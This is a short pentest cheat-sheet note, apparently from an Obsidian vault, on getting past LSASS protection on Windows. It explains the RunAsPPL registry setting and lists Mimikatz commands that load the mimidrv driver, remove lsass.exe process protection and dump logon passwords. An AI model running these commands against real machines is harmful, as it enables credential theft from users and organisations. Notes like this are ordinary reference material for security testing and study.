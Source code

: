 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz 
[LSASS](Credentials.md#LSASS)
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentials.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
